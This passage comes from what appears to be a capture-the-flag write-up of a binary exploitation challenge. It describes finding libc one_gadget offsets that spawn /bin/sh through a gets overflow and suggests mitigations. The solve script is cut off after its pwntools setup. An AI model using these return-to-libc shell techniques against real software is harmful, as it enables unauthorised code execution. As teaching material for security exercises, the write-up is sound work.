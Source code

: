# 4. Exploitation<a id="exploitation"></a>
Only knowing the randomized libc base address is already enough to get a shell, as we can just pop a shell via a [OneGadget](https://github.com/david942j/one_gadget). This tool is absolutely great. By executing it like `one_gadget libc.so.6` we get the offsets of potentially useful onegadgets which can be exploited to pop a shell without any ROP:

```bash
0x4f29e execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```

As these onegadgets got some requirements to work, we can easily just try out everyone of these. The one with libc offset `0x4f2a5` will work for us. After determining the offset to the return address e.g. by using the `cyclic` command in `gdb` we can construct our payload and eventually pop our shell.

# 5. Mitigation<a id="mitigation"></a>
The vulnerabilities can be easily mitigated by not intentionally leaking some addresses and moreover using some safe alternatives for `gets` like `fgets`.

# 6. Solve script<a id="solve script"></a>
```python
#!/usr/bin/env python3
from string import Template
import glob
from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'debug'

# must be dict
ENV_VARS = None

gdbscript = """
# breakrva 0x1ab5
break *gets
continue
"""


```